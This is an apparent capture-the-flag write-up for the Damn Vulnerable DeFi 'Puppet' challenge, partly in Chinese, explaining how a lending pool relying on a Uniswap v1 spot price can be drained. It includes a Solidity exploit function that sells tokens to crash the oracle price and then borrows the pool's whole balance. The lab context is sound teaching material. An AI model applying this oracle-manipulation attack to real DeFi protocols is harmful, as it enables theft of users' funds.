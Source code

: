 ```yaml
---
title: Puppet
tags:
    - CTF
    - Damn
---
```

# Description
There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There’s a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Pass the challenge by taking all tokens from the lending pool. You start with 25 ETH and 1000 DVTs in balance.

# Code
`PuppetPool.sol`：定义了一个用ETH来接DVT Token的功能，允许用户通过支付ETH作为抵押来借款，同时要求抵押的ETH必须至少是所借代币价值的两倍，

# Solution
Pool使用的是Uniswap V1交易对，初始状态有10 Eth和10 DVT，当前价格是1:1,因为是恒定乘积公式，当我们把手上的DVT全部卖给Exchange后，价格就会变成0.09:1010，这时候我们再去和Pool进行lending，即可把Pool中所有的DVT全部借走。

# Exp

```solidity
contract PuppetTest {

    //... setup

    function exploit() internal override {
        /** CODE YOUR EXPLOIT HERE */

        uint256 deadline = block.timestamp * 2;

        vm.startPrank(attacker);

        // Approve the exchange for the whole amount of token
        token.approve(address(uniswapExchange), type(uint256).max);

        // Sell token all the token to get ETH
        // Doing this the price of the token will lower and the Pool `_computeOraclePrice` will return a low value
        // Allowing us to borrow at a cheaper price
        uniswapExchange.tokenToEthSwapInput(token.balanceOf(attacker), 1, deadline);

        // Calculate how much we should pay to borrow a token
        uint256 ethToBorrowOneToken = lendingPool.calculateDepositRequired(1 ether);

        // Calc how much we can borrow
        uint256 tokenWeCanBorrow = (attacker.balance * 10 ** 18) / ethToBorrowOneToken;

        // Get the max borrowable tokekns from the pool
        uint256 maxTokenToBorrow = Math.min(token.balanceOf(address(lendingPool)), tokenWeCanBorrow);

        // Borrow all the token draining the pool
        lendingPool.borrow{value: attacker.balance}(maxTokenToBorrow);

        vm.stopPrank();
    }
}
```